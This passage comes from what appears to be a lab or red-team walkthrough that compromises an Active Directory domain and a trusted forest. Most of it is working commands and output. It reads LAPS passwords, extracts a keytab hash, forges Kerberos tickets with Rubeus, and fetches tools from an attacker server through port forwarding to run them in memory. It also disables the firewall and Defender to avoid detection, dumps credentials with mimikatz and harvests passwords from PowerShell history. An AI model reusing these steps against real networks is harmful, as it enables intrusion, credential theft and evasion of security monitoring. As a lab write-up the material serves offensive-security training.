Interpretation:
- Read Rights: The
TI\LocalAdminsgroup has permission to retrieve the local admin passwords for machines in theAppServersOU.
- Write Rights: Each computer in the AppServers OU is configured to write its own password to AD.
We can see with our enumeration that LocalAdmins group have the Read Right permission for LAPS configuration, meaning that members of LocalAdmins group can read the clear-text password.
As member of ITEmployeesUsers group we have ReadProperty, WriteProperty, and GenericExecute rights over the LocalAdmins object. Let's take advantage of the WriteProperty and Add ourselves as member of LocalAdmins group.
Let's now enumerate all the Computers that belong to AppServers OU using ADModule.
Get-ADOrganizationalUnit -Identity 'OU=AppServers,DC=it,DC=gcb,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | Select 'Name'

We can see that inside AppServers OU we have only one computer, and its named as IT-APPSRV01. Let's now read this computer's local admin's password with ADModule.
Get-ADGroupMember -Identity 'LocalAdmins'

Add-ADGroupMember -Identity 'LocalAdmins' -Members 'itemployee41' -Verbose

Get-ADGroupMember -Identity 'LocalAdmins'

After adding the user, We need to logout and login for this adding to reflect on our side.
before logout/login

After logout/login

It is possible to see now that we are now part of IT\LocalAdminsWe can now Read the Local Admins's password of IT-APPSRV01.
Reading LAPS Credentials with ADModule
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
Get-ADComputer -Identity 'IT-APPSRV01' -Properties 'ms-mcs-admpwd'

Now we let's try to access IT-APPSRV01 as local administrator.
winrs -r:IT-APPSRV01 -u:'\IT-APPSRV01' -p:'8dPII$cXXPkA4K' cmd

WinRS is using Kerberos by default for authentication, but our context might not align with the expected domain settings, causing a failure. The error code 0x80090311 indicates that the Kerberos authentication cannot be performed because your current session might not have an appropriate Kerberos ticket for the domain.
We can fix this issue by using NTLM authentication instead of Kerberos. We can force this by adding the remote host to the TrustedHosts list on PowerShell.
Note: Wrapping it inside the single quotes is only applied when executing it in PowerShell, not in CMD.
winrm set winrm/config/client '@{TrustedHosts="IT-APPSRV01"}'

winrs -r:IT-APPSRV01 -u:'.\Administrator' -p:'a%0Y4I8544Pz+8' cmd

Since keytab files store encrypted credentials (Kerberos principals), and we found one related to a SQL Server (sqlsrv02) could allow us to authenticate as that service or impersonate it, depending on how the keytab was configured and what it contains.
Let's extract this .keytab file from the remote host first.
# Create credential object without popup
$username = ".\Administrator"
$password = 'a%0Y4I8544Pz+8' | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
$remoteServer = "IT-APPSRV01"
$remotePath = "C:\Ubuntu\rootfs\root\sqlsrv02.keytab"
$localPath = "C:\Users\itemployee41\Documents\sqlsrv02.keytab"
# Ensure local directory exists
$localDir = Split-Path -Path $localPath -Parent
if (!(Test-Path $localDir)) { New-Item -Path $localDir -ItemType Directory }
# Get file content from remote server and write locally
$fileContent = Invoke-Command -ComputerName $remoteServer -Credential $cred -ScriptBlock { Get-Content -Path $Using:remotePath -Raw }
$fileContent | Set-Content -Path $localPathdir

Now we do have several ways to read this file and extract credentials from it, but unfortunately, I found no ways to do it via Windows. I had to extract this file into my Kali Linux and use the following python script from Github to be able to extract those credentials from the file. https://github.com/sosdave/KeyTabExtract
python3 keytabextract.py sqlsrv02.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[!] Unable to identify any AES256-CTS-HMAC-SHA1 hashes.
[!] Unable to identify any AES128-CTS-HMAC-SHA1 hashes.
[+] Keytab File successfully imported.
REALM : it.gcb.local
SERVICE PRINCIPAL : sqlsvc/
NTLM HASH : 7782d820e5e5952b20b77a2240a03bbcWe were able to find credentials for an SQL service account. With this new creds, let's start by elevating our privileges as sqlsvc user and to accomplish this task we can use Rubeus.
PortForwarding
Before we move on, I just decided to make our next steps more stealthy. Let's create a portforwarding pointing all our requests into our localhost IP, this way defense mechanisms like Defender for example, won't see our next requests to external scripts or .NET EXEs like Rubeus or even SafetyKatz as malicious requests. Let's use netsh to accomplish this task.
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=443 connectaddress=192.168.99.41

Basically we are telling the host that. whatever request is make from localhost IP 127.0.0.1, must be forwarded to our malicious server containing our needed files.
NOTE: ON MY LINUX SERVER I'M HOSTING A FOLDER CONTAINING ALL TOOLS I'LL NEED AND I'M USING PYTHON3 FOR THAT python3 -m http.server 443.
Let's test our portforwarding now by importing PowerView.ps1 into the memory. This method will allow us store PowerView module into the memory without even touching the physical disk.
Forging SQLSVC (TGT)Ticket Granting Ticket
Now that we do have Imported our shellcode Loader, we can run Rubeus from the memory and elevate our privileges as sqlsvc by requesting its Ticket Granting Ticket.
Remember that we are doing it using the shellcode loader, so the command should be the following:
C:\Users\itemployee41\Documents\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args "asktgt" /user:sqlsvc /rc4:7782d820e5e5952b20b77a2240a03bbc /opsec /force /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

Now that we were able to elevate our privilege to sqlsvc by requesting its Ticket Granting Ticket, we can try to access IT-SQLSRV02 host. You might be wondering why exactly the IT-SQLSRV02 server? Well, If you remember, our .keytab file, uses exactly the same name of the server it connects IT-SQLSRV02.keytab.
Accessing IT-SQLSRV02 with WinRS
We can use WinRS to access IT-SQLSRV02 server, but instead of accessing the server remotely, I'll simple send commands to the server and get the output.
winrs -r:IT-SQLSRV02 powershell -Command '$env:ComputerName'
winrs -r:IT-SQLSRV02 powershell -Command '$env:UserName'

OK, we have access to the server.
winrs -r:IT-SQLSRV02 powershell -Command 'whoami /all'

Disabling Firewall on SQLSRV02
Now that we do have Local Admin access into SQLSRV02, let's start by disabling Firewall, this avoids Defender to detect and report our malicious actions.
Using the scheduled task method via WinRS is an effective choice for disabling the firewall for several strategic reasons:
- Legitimate Administrative Channel: WinRS (Windows Remote Shell) is a built-in Windows administrative tool that's less likely to trigger security alerts compared to more exotic command execution methods.
- SYSTEM Privileges: By creating a scheduled task that runs as SYSTEM, we executed the firewall disabling command with the highest local privilege level, bypassing any potential UAC (User Account Control) restrictions.
- Minimal Footprint: The approach leaves minimal forensic evidence - we create a task, execute it immediately, then delete it, minimizing the time the suspicious configuration exists on the system.
- Indirect Execution: Rather than directly disabling the firewall from our session, we instructed the system...
# Create the scheduled task to disable firewall
winrs -r:IT-SQLSRV02 powershell -Command "schtasks /create /tn 'SystemUpdate' /tr 'cmd.exe /c netsh advfirewall set allprofiles state off' /sc once /st 00:00 /ru SYSTEM /f"

# Run the scheduled task immediately
winrs -r:IT-SQLSRV02 powershell -Command "schtasks /run /tn 'SystemUpdate'"

# Verify the firewall status (optional)
winrs -r:IT-SQLSRV02 powershell -Command "netsh advfirewall show allprofiles state"

Copy File into IT-SQLSRV02
echo F | XCOPY C:\Users\itemployee41\Documents\Loader.exe \\IT-SQLSRV02\C$\

winrs -r:IT-SQLSRV02 powershell -Command "dir -force 'C:\'"

Portforwarding on IT-SQLSRV02 → Attacking Workstation
winrs -r:IT-SQLSRV02 powershell -Command "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=443 connectaddress=192.168.100.41"
winrs -r:IT-SQLSRV02 powershell -Command "netsh interface portproxy show all"

Portforwarding Attacking Workstation → Attacking Server
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=443 connectaddress=192.168.99.41
netsh interface portforwarding show all

Dumping credentials from IT-SQLSRV02
winrs -r:IT-SQLSRV02 powershell -Command "C:\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args 'sekurlsa::ekeys' 'exit'"
ekeys
mimikatz(commandline) # sekurlsa::ekeys
Authentication Id : 0 ; 3741362 (00000000:003916b2)
Session : RemoteInteractive from 2
User Name : sqlsvc
Domain : IT
Logon Server : IT-DC
Logon Time : 2/15/2024 6:29:13 AM
SID : S-1-5-21-948911695-1962824894-4291460450-1110
* Username : sqlsvc
* Domain : IT.GCB.LOCAL
* Password : (null)
* Key List :
aes256_hmac 79e4a93c75e436e2b4333d8ab1818f38352e6f1b532bc39635b4ed93489d6413
rc4_hmac_nt 7782d820e5e5952b20b77a2240a03bbc
rc4_hmac_old 7782d820e5e5952b20b77a2240a03bbc
rc4_md4 7782d820e5e5952b20b77a2240a03bbc
rc4_hmac_nt_exp 7782d820e5e5952b20b77a2240a03bbc
rc4_hmac_old_exp 7782d820e5e5952b20b77a2240a03bbc
Authentication Id : 0 ; 311184 (00000000:0004bf90)
Session : Interactive from 2
User Name : UMFD-2
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/15/2024 6:05:34 AM
SID : S-1-5-96-0-2
* Username : IT-SQLSRV02$
* Domain : it.gcb.local
* Password : 39 ab e5 9e 66 2b e0 d6 bb 11 ed ec e1 2f 3f 1d b3 79 70 2a ab 67 d4 eb 1d 6c e2 6d 9b d1 57 ba 1b c9 87 cf ef 9b 4f 85 c6 81 4f 76 e4 89 93 bc 23 86 db d3 31 ee c1 9f 87 a4 36 5d 50 7d 1b 19 71 80 7a 5b 0a cb b8 00 7e 03 46 94 41 50 06 c5 e6 70 90 f8 86 5a 79 5f b7 8d 99 ef 67 e8 b5 16 12 8c 6e 13 83 7a 52 e4 01 df a6 c7 9f 77 d7 7e 9c e2 73 ba 95 f2 37 86 ba b1 4c 9b 1c 72 10 bd b5 47 71 91 4c ff fa 34 04 a4 ce 92 cb 52 0d 8f cc ca d1 60 bf bb 51 1e a2 ab cb c8 7d a0 79 57 0a 8e d8 1b cf bf e2 b7 18 2a ed 50 d8 fb e1 b7 49 bc c9 e0 47 ac da 7d 6b 28 04 5f f7 c0 7d 9d b3 52 87 bc 30 38 b0 2a cf 1c f3 e3 04 66 5d 3b 83 d6 af a8 4a 70 7f 58 c7 9f 61 b8 47 02 73 20 18 e4 0e 75 7b a3 94 fb 63 4b ab 23 20 2a 00 a1
* Key List :
aes256_hmac 9f30013a970ca03227358d2fa2ab4469e60eaaf62d8181901ce9215c04f721d5
aes128_hmac 99c5c31679f0ac44d8e33c58b0ae831d
rc4_hmac_nt 9f781139283fa1e712e9dc349f236834
rc4_hmac_old 9f781139283fa1e712e9dc349f236834
rc4_md4 9f781139283fa1e712e9dc349f236834
rc4_hmac_nt_exp 9f781139283fa1e712e9dc349f236834
rc4_hmac_old_exp 9f781139283fa1e712e9dc349f236834
Authentication Id : 0 ; 109925 (00000000:0001ad65)
Session : Service from 0
User Name : SQLTELEMETRY
Domain : NT Service
Logon Server : (null)
Logon Time : 2/15/2024 6:04:38 AM
SID : S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775
* Username : IT-SQLSRV02$
* Domain : it.gcb.local
* Password : 39 ab e5 9e 66 2b e0 d6 bb 11 ed ec e1 2f 3f 1d b3 79 70 2a ab 67 d4 eb 1d 6c e2 6d 9b d1 57 ba 1b c9 87 cf ef 9b 4f 85 c6 81 4f 76 e4 89 93 bc 23 86 db d3 31 ee c1 9f 87 a4 36 5d 50 7d 1b 19 71 80 7a 5b 0a cb b8 00 7e 03 46 94 41 50 06 c5 e6 70 90 f8 86 5a 79 5f b7 8d 99 ef 67 e8 b5 16 12 8c 6e 13 83 7a 52 e4 01 df a6 c7 9f 77 d7 7e 9c e2 73 ba 95 f2 37 86 ba b1 4c 9b 1c 72 10 bd b5 47 71 91 4c ff fa 34 04 a4 ce 92 cb 52 0d 8f cc ca d1 60 bf bb 51 1e a2 ab cb c8 7d a0 79 57 0a 8e d8 1b cf bf e2 b7 18 2a ed 50 d8 fb e1 b7 49 bc c9 e0 47 ac da 7d 6b 28 04 5f f7 c0 7d 9d b3 52 87 bc 30 38 b0 2a cf 1c f3 e3 04 66 5d 3b 83 d6 af a8 4a 70 7f 58 c7 9f 61 b8 47 02 73 20 18 e4 0e 75 7b a3 94 fb 63 4b ab 23 20 2a 00 a1
* Key List :
aes256_hmac 9f30013a970ca03227358d2fa2ab4469e60eaaf62d8181901ce9215c04f721d5
aes128_hmac 99c5c31679f0ac44d8e33c58b0ae831d
rc4_hmac_nt 9f781139283fa1e712e9dc349f236834
rc4_hmac_old 9f781139283fa1e712e9dc349f236834
rc4_md4 9f781139283fa1e712e9dc349f236834
rc4_hmac_nt_exp 9f781139283fa1e712e9dc349f236834
rc4_hmac_old_exp 9f781139283fa1e712e9dc349f236834
Authentication Id : 0 ; 996 (00000000:000003e4)
Session : Service from 0
User Name : IT-SQLSRV02$
Domain : IT
Logon Server : (null)
Logon Time : 2/15/2024 6:04:33 AM
SID : S-1-5-20
* Username : it-sqlsrv02$
* Domain : IT.GCB.LOCAL
* Password : (null)
* Key List :
aes256_hmac 1d31fa04eaee56d8333e435b55bc7896a453ae9c399a8073599813a42278d536
rc4_hmac_nt 9f781139283fa1e712e9dc349f236834
rc4_hmac_old 9f781139283fa1e712e9dc349f236834
rc4_md4 9f781139283fa1e712e9dc349f236834
rc4_hmac_nt_exp 9f781139283fa1e712e9dc349f236834
rc4_hmac_old_exp 9f781139283fa1e712e9dc349f236834
Authentication Id : 0 ; 60015 (00000000:0000ea6f)
Session : Interactive from 0
User Name : UMFD-0
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/15/2024 6:04:32 AM
SID : S-1-5-96-0-0
* Username : IT-SQLSRV02$
* Domain : it.gcb.local
* Password : 39 ab e5 9e 66 2b e0 d6 bb 11 ed ec e1 2f 3f 1d b3 79 70 2a ab 67 d4 eb 1d 6c e2 6d 9b d1 57 ba 1b c9 87 cf ef 9b 4f 85 c6 81 4f 76 e4 89 93 bc 23 86 db d3 31 ee c1 9f 87 a4 36 5d 50 7d 1b 19 71 80 7a 5b 0a cb b8 00 7e 03 46 94 41 50 06 c5 e6 70 90 f8 86 5a 79 5f b7 8d 99 ef 67 e8 b5 16 12 8c 6e 13 83 7a 52 e4 01 df a6 c7 9f 77 d7 7e 9c e2 73 ba 95 f2 37 86 ba b1 4c 9b 1c 72 10 bd b5 47 71 91 4c ff fa 34 04 a4 ce 92 cb 52 0d 8f cc ca d1 60 bf bb 51 1e a2 ab cb c8 7d a0 79 57 0a 8e d8 1b cf bf e2 b7 18 2a ed 50 d8 fb e1 b7 49 bc c9 e0 47 ac da 7d 6b 28 04 5f f7 c0 7d 9d b3 52 87 bc 30 38 b0 2a cf 1c f3 e3 04 66 5d 3b 83 d6 af a8 4a 70 7f 58 c7 9f 61 b8 47 02 73 20 18 e4 0e 75 7b a3 94 fb 63 4b ab 23 20 2a 00 a1
* Key List :
aes256_hmac 9f30013a970ca03227358d2fa2ab4469e60eaaf62d8181901ce9215c04f721d5
aes128_hmac 99c5c31679f0ac44d8e33c58b0ae831d
rc4_hmac_nt 9f781139283fa1e712e9dc349f236834
rc4_hmac_old 9f781139283fa1e712e9dc349f236834
rc4_md4 9f781139283fa1e712e9dc349f236834
rc4_hmac_nt_exp 9f781139283fa1e712e9dc349f236834
rc4_hmac_old_exp 9f781139283fa1e712e9dc349f236834
Authentication Id : 0 ; 60024 (00000000:0000ea78)
Session : Interactive from 1
User Name : UMFD-1
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/15/2024 6:04:32 AM
SID : S-1-5-96-0-1
* Username : IT-SQLSRV02$
* Domain : it.gcb.local
* Password : 39 ab e5 9e 66 2b e0 d6 bb 11 ed ec e1 2f 3f 1d b3 79 70 2a ab 67 d4 eb 1d 6c e2 6d 9b d1 57 ba 1b c9 87 cf ef 9b 4f 85 c6 81 4f 76 e4 89 93 bc 23 86 db d3 31 ee c1 9f 87 a4 36 5d 50 7d 1b 19 71 80 7a 5b 0a cb b8 00 7e 03 46 94 41 50 06 c5 e6 70 90 f8 86 5a 79 5f b7 8d 99 ef 67 e8 b5 16 12 8c 6e 13 83 7a 52 e4 01 df a6 c7 9f 77 d7 7e 9c e2 73 ba 95 f2 37 86 ba b1 4c 9b 1c 72 10 bd b5 47 71 91 4c ff fa 34 04 a4 ce 92 cb 52 0d 8f cc ca d1 60 bf bb 51 1e a2 ab cb c8 7d a0 79 57 0a 8e d8 1b cf bf e2 b7 18 2a ed 50 d8 fb e1 b7 49 bc c9 e0 47 ac da 7d 6b 28 04 5f f7 c0 7d 9d b3 52 87 bc 30 38 b0 2a cf 1c f3 e3 04 66 5d 3b 83 d6 af a8 4a 70 7f 58 c7 9f 61 b8 47 02 73 20 18 e4 0e 75 7b a3 94 fb 63 4b ab 23 20 2a 00 a1
* Key List :
aes256_hmac 9f30013a970ca03227358d2fa2ab4469e60eaaf62d8181901ce9215c04f721d5
aes128_hmac 99c5c31679f0ac44d8e33c58b0ae831d
rc4_hmac_nt 9f781139283fa1e712e9dc349f236834
rc4_hmac_old 9f781139283fa1e712e9dc349f236834
rc4_md4 9f781139283fa1e712e9dc349f236834
rc4_hmac_nt_exp 9f781139283fa1e712e9dc349f236834
rc4_hmac_old_exp 9f781139283fa1e712e9dc349f236834
Authentication Id : 0 ; 999 (00000000:000003e7)
Session : UndefinedLogonType from 0
User Name : IT-SQLSRV02$
Domain : IT
Logon Server : (null)
Logon Time : 2/15/2024 6:04:31 AM
SID : S-1-5-18
* Username : it-sqlsrv02$
* Domain : IT.GCB.LOCAL
* Password : (null)
* Key List :
aes256_hmac 1d31fa04eaee56d8333e435b55bc7896a453ae9c399a8073599813a42278d536
rc4_hmac_nt 9f781139283fa1e712e9dc349f236834
rc4_hmac_old 9f781139283fa1e712e9dc349f236834
rc4_md4 9f781139283fa1e712e9dc349f236834
rc4_hmac_nt_exp 9f781139283fa1e712e9dc349f236834
rc4_hmac_old_exp 9f781139283fa1e712e9dc349f236834PowerShell History Enumeration in Attacking Workstation
PowerShell history enumeration is an extremely valuable technique during the reconnaissance and privilege escalation phases of a penetration test.
How PowerShell History Works
By default, PowerShell saves a user's command history to a file located at: %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
This file contains plaintext records of commands executed in PowerShell sessions, including:
- Commands with parameters and arguments
- Scripts that were executed
- Potentially sensitive information like credentials, connection strings, or API keys
When performing red team assessments, always check PowerShell history:
- After gaining initial access to any system
- After privilege escalation to another user
- On servers that handle sensitive operations (like database servers)
- On administrator workstations
This simple check often yields credentials or sensitive information that can dramatically accelerate your assessment and provide new attack paths that would otherwise remain hidden.
How to Check PowerShell History
We can enumerate PowerShell history in several ways:
Direct file access (most reliable)
This way will simply enumerate the PowerShell history of the current session on the server we are currently.
Get-Content (Get-PSReadLineOption).HistorySavePath
While inside our attacking workstation, I enumerated the Administrator's Powershell History and I found 2 credentials.
Get-ChildItem C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt -Force | Get-Content

Vend0r'sDatabaseSecret and Password@123.
Cross Forest Attacks - Kerberoast Attack
Let's now access IT-SQLSRV02 using PsExec.exe to ease our remote access.
PsExec64.exe -accepteula -nobanner \\IT-SQLSRV02 powershell

Now inside IT-SQLSRV02, If we enumerate the service accounts for msp.local, we will find out several service accounts
Service Accounts in msp.local
DistinguishedName : CN=krbtgt,CN=Users,DC=msp,DC=local
Enabled : False
GivenName :
Name : krbtgt
ObjectClass : user
ObjectGUID : 3d80e527-8857-4fb8-8f50-0da3b9525a06
SamAccountName : krbtgt
ServicePrincipalName : {kadmin/changepw}
SID : S-1-5-21-2998733414-582960673-4099777928-502
Surname :
UserPrincipalName :
DistinguishedName : CN=Tracy Obrien,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : Tracy
Name : Tracy Obrien
ObjectClass : user
ObjectGUID : 6ed35df2-19ec-4163-868d-c956203fbf4e
SamAccountName : Vencome
ServicePrincipalName : {MSSQLSvc/msp-data04.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1732
Surname : Obrien
UserPrincipalName : Vencome@msp.local
DistinguishedName : CN=Lori Blanchard,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : Lori
Name : Lori Blanchard
ObjectClass : user
ObjectGUID : 1a3f4e16-4d53-4a6c-b020-847b6e00770d
SamAccountName : Whirosed
ServicePrincipalName : {MSSQLSvc/msp-data09.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1713
Surname : Blanchard
UserPrincipalName : Whirosed@msp.local
DistinguishedName : CN=Laverna Cole,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : Laverna
Name : Laverna Cole
ObjectClass : user
ObjectGUID : 64f116c7-1117-4f9c-843c-9dd79b5af9a2
SamAccountName : Preselle
ServicePrincipalName : {MSSQLSvc/msp-dc08.msp.local, MSSQLSvc/msp-dc01.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1715
Surname : Cole
UserPrincipalName : Preselle@msp.local
DistinguishedName : CN=Arlena McNeal,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : Arlena
Name : Arlena McNeal
ObjectClass : user
ObjectGUID : 6dedfc21-9ed8-42f2-8302-8e5bf36b5a1a
SamAccountName : Andrescrove
ServicePrincipalName : {MSSQLSvc/msp-dc07.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1711
Surname : McNeal
UserPrincipalName : Andrescrove@msp.local
DistinguishedName : CN=Linda Peterson,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : Linda
Name : Linda Peterson
ObjectClass : user
ObjectGUID : a098c440-ea0a-4d83-9a98-8cbf550ea0da
SamAccountName : Onnithashe
ServicePrincipalName : {MSSQLSvc/msp-report05.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1712
Surname : Peterson
UserPrincipalName : Onnithashe@msp.local
DistinguishedName : CN=John Jackson,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : John
Name : John Jackson
ObjectClass : user
ObjectGUID : 37f1cce6-340c-420b-b05c-d364709af924
SamAccountName : Taboure79
ServicePrincipalName : {MSSQLSvc/msp-report08.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1720
Surname : Jackson
UserPrincipalName : Taboure79@msp.local
DistinguishedName : CN=James Barker,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : James
Name : James Barker
ObjectClass : user
ObjectGUID : 46f91e58-b6a9-4d4e-87f3-30e0af85421f
SamAccountName : Addren
ServicePrincipalName : {MSSQLSvc/msp-san07.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1714
Surname : Barker
UserPrincipalName : Addren@msp.local
DistinguishedName : CN=mspdb,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : msp
Name : mspdb
ObjectClass : user
ObjectGUID : 9158587d-8b16-4b38-a013-0bfd1f2a5aaf
SamAccountName : mspdb
ServicePrincipalName : {MSSQLSvc/msp-sqlreport.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1107
Surname : db
UserPrincipalName : mspdb
DistinguishedName : CN=Eva Whitt,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : Eva
Name : Eva Whitt
ObjectClass : user
ObjectGUID : 6ebebe4d-bb8f-4a84-924b-e923189db099
SamAccountName : Woming
ServicePrincipalName : {MSSQLSvc/msp-web06.msp.local, MSSQLSvc/msp-srv01.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1710
Surname : Whitt
UserPrincipalName : Woming@msp.local
DistinguishedName : CN=Carroll Pearson,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : Carroll
Name : Carroll Pearson
ObjectClass : user
ObjectGUID : e3d1fc71-4d0d-48d2-be6b-5b8687a9a8e2
SamAccountName : Thatoonse
ServicePrincipalName : {MSSQLSvc/msp-srv04.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1753
Surname : Pearson
UserPrincipalName : Thatoonse@msp.local
DistinguishedName : CN=Angie Vansant,CN=Users,DC=msp,DC=local
Enabled : True
GivenName : Angie
Name : Angie Vansant
ObjectClass : user
ObjectGUID : 8cbd07a4-9817-4c5a-a43e-b0dc6fcc930b
SamAccountName : Forgest
ServicePrincipalName : {MSSQLSvc/msp-srv08.msp.local}
SID : S-1-5-21-2998733414-582960673-4099777928-1721
Surname : Vansant
UserPrincipalName : Forgest@msp.localBy doing a Cross Forest enumeration service accounts, we can find several Service Accounts inside msp.local, let's focus on the following:
MSSQLSvc/msp-sqlreport.msp.local (mspdb account)
MSSQLSvc/msp-data04.msp.local (Vencome/Tracy Obrien)
MSSQLSvc/msp-data09.msp.local (Whirosed/Lori Blanchard)
MSSQLSvc/msp-dc01.msp.local (Preselle/Laverna Cole)
MSSQLSvc/msp-dc07.msp.local (Andrescrove/Arlena McNeal)
MSSQLSvc/msp-report05.msp.local (Onnithashe/Linda Peterson)
MSSQLSvc/msp-report08.msp.local (Taboure79/John Jackson)
MSSQLSvc/msp-san07.msp.local (Addren/James Barker)
MSSQLSvc/msp-srv04.msp.local (Thatoonse/Carroll Pearson)
MSSQLSvc/msp-srv08.msp.local (Forgest/Angie Vansant)Instead of requesting and trying to crack the service account hashes, I decided to try the credentials I found previously during the PowerShell History enumeration
Executing Commands to MSP-SQLREPORT via PSRemoting Session
On my first attempt I was already able to access MSP-SQLREPORT.msp.local with user "mspdb" & "Vend0r'sDatabaseSecret" password.
Let's now use Powershell Remoting to remotely access MSP-SQLREPORT.
Let's convert the password to a secure string. This converts the plain text password into a secure string object that can be used for credential creation.
$SecurePassword = ConvertTo-SecureString "Vend0r'sDatabaseSecret" -AsPlainText -Force
Create a credential object. This creates a PSCredential object using the domain\username format and the secure password.
$Credential = New-Object System.Management.Automation.PSCredential("msp\mspdb", $SecurePassword)
Configure WinRM TrustedHosts. This configures the local WinRM client to trust the remote server, which is required when connecting to servers not in your domain or when HTTPS isn't used. Requires admin rights.
Set-Item WSMan:\localhost\Client\TrustedHosts -Value "MSP-SQLREPORT.msp.local" -Force
These commands together allow for authenticating to and accessing a remote Windows server through PowerShell Remoting. We can also use the Invoke-Command to simply execute commands inside MSP-SQLREPORT.
Invoke-Command -ComputerName 'MSP-SQLREPORT.msp.local' -Credential $Credential -ScriptBlock { whoami } -ErrorAction SilentlyContinue

PortForwarding to ease Access to our attacking server tools.
now that we are inside IT-SQLREPORT, let's start by configuring Portfowarding using our workstation attacking machine as our proxy to access out attacking server. this way we can access our attacking tools.
Invoke-command -ComputerName 'MSP-SQLREPORT.msp.local' -Credential $Credential -ScriptBlock { netsh interface portproxy add v4tov4 listenport=443 listenaddress=0.0.0.0 connectport=443 connectaddress=192.168.4.51 }
Invoke-command -ComputerName 'MSP-SQLREPORT.msp.local' -Credential $Credential -ScriptBlock { netsh interface portproxy show all }

Disabling Firewall MSP-SQLREPORT
Invoke-command -ComputerName 'MSP-SQLREPORT.msp.local' -Credential $Credential -ScriptBlock { Set-MpPreference -DisableRealtimeMonitoring 1; Set-MpPreference -DisableBehaviorMonitoring 1; Set-MpPreference -DisableScriptScanning 1; Set-MpPreference -DisableIntrusionPreventionSystem 1; Set-MpPreference -DisableNetworkProtection 1; Set-MpPreference -SubmitSamplesConsent 2; Set-MpPreference -MAPSReporting 0; Set-MpPreference -PUAProtection 0 }
Dumping Credentials on MSP-SQLREPORT
Let's access MSP-SQLREPORT host using WinRS because it works better than PSRemoting.
Let's now create the inter-realm TGT and inject into our session.

Importing Loader into MSP-SQLREPORT.
Invoke-command -ComputerName 'MSP-SQLREPORT.msp.local' -Credential $Credential -ScriptBlock { Invoke-WebRequest http://127.0.0.1:443/ligolo_Agent.exe Loader.exe -OutFile 'C:\Loader.exe -UseBasicParsing }
Let's now dump credentials inside MSP-SQLREPORT.
C:\Loader.exe -Path http://127.0.0.1:443/SafetyKatz.exe -args 'sekurlsa::logonpasswords' 'exit'
Credentials Dumping - logonpasswords
mimikatz(commandline) # sekurlsa::logonpasswords
Authentication Id : 0 ; 3741362 (00000000:003916b2)
Session : RemoteInteractive from 2
User Name : sqlsvc
Domain : IT
Logon Server : IT-DC
Logon Time : 2/15/2024 6:29:13 AM
SID : S-1-5-21-948911695-1962824894-4291460450-1110
msv :
[00000003] Primary
* Username : sqlsvc
* Domain : IT
* NTLM : 7782d820e5e5952b20b77a2240a03bbc
* SHA1 : ed6b0ef7c827052a108da19c2eb141997ad5f79e
* DPAPI : bd8d45ec37c414a416f1fadf90cfe9a1
tspkg :
wdigest :
* Username : sqlsvc
* Domain : IT
* Password : (null)
kerberos :
* Username : sqlsvc
* Domain : IT.GCB.LOCAL
* Password : (null)
ssp :
credman :C:\Loader.exe -Path http://127.0.0.1:443/SafetyKatz.exe -args 'sekurlsa::ekeys' 'exit'
Credentials Dumping - sekurlsa::ekeys
mimikatz(commandline) # sekurlsa::ekeys
Authentication Id : 0 ; 3741362 (00000000:003916b2)
Session : RemoteInteractive from 2
User Name : sqlsvc
Domain : IT
Logon Server : IT-DC
Logon Time : 2/15/2024 6:29:13 AM
SID : S-1-5-21-948911695-1962824894-4291460450-1110
* Username : sqlsvc
* Domain : IT.GCB.LOCAL
* Password : (null)
* Key List :
aes256_hmac 79e4a93c75e436e2b4333d8ab1818f38352e6f1b532bc39635b4ed93489d6413
rc4_hmac_nt 7782d820e5e5952b20b77a2240a03bbc
rc4_hmac_old 7782d820e5e5952b20b77a2240a03bbc
rc4_md4 7782d820e5e5952b20b77a2240a03bbc
rc4_hmac_nt_exp 7782d820e5e5952b20b77a2240a03bbc
rc4_hmac_old_exp 7782d820e5e5952b20b77a2240a03bbc
Authentication Id : 0 ; 311184 (00000000:0004bf90)
Session : Interactive from 2
User Name : UMFD-2
Domain : Font Driver Host
Logon Server : (null)
Logon Time : 2/15/2024 6:05:34 AM
SID : S-1-5-96-0-2
* Username : IT-SQLSRV02$
* Domain : it.gcb.local
